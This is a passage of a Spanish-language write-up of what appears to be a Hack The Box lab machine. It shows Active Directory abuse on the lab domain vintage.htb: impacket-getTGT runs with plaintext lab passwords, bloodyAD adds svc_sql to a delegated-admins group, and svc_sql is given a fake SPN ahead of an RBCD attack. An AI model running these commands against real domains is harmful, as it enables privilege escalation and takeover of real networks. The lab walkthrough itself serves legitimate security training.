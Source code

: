 Con esto en mente, la estrategia es aprovechar el usuario **svc\_sql** para generar un SPN ficticio y asignárselo mediante (P.Rosa@vintage.htb), quien tiene control total sobre svc\_sql y puede modificar su _ServicePrincipalName_ (SPN), lo que nos permitirá ejecutar el ataque.

Para ello, primero solicitaremos el TGT (Ticket Granting Ticket) del usuario (c.neri\_adm@vintage.htb), almacenaremos el ticket en la variable _KRB5CCNAME_ y validaremos que sea un ticket válido y se encuentre correctamente almacenado.

```bash
impacket-getTGT vintage.htb/c.neri_adm:Uncr4ck4bl3P4ssW0rd0312

export KRB5CCNAME=c.neri_adm.ccache

klist -e
```

<figure><img src="../../../.gitbook/assets/2751_vmware_GcQbPaPYdn.png" alt=""><figcaption></figcaption></figure>

Con el TGT del usuario (c.neri\_adm@vintage.htb) añadiremos al usuario (svc\_sql@vintage.htb) al grupo de (delegatedadmins@vintage.htb), ya que los miembros de este grupo pueden realizar el **RBCD Attack**.

Una vez añadido el usuario al grupo, procederemos a solicitar el TGT (Ticket Granting Ticket) del usuario (P.Rosa@vintage.htb) para posteriormente seguir con la explotación del ataque.

{% code overflow="wrap" %}
```bash
bloodyAD -d vintage.htb --host dc01.vintage.htb -k add groupMember 'DELEGATEDADMINS' 'SVC_SQL'

impacket-getTGT vintage.htb/P.Rosa:Rosaisbest123

export KRB5CCNAME=P.Rosa.ccache

klist -e
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2755_vmware_gpGsZMuLhb (1).png" alt=""><figcaption></figcaption></figure>

Con el TGT del usuario (P.Rosa@vintage.htb) procederemos a asignarle al usuario "svc\_sql@vintage.htb) al cual tenemos privilegios de **GenericAll** sobre él un SPN (ServicePrincipalName) ficticio.

Una vez le asignemos un SPN ficticio, procederemos a solicitar el TGT del usuario (svc\_sql@vintage.htb).

{% code overflow="wrap" %}
```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "SVC_SQL" servicePrincipalName -v "cifs/gzzcoo"

impacket-getTGT vintage.htb/svc_sql:Zer0the0ne -dc-ip dc01.vintage.htb

export KRB5CCNAME=svc_sql.ccache

klist -e
```
{% endcode %}
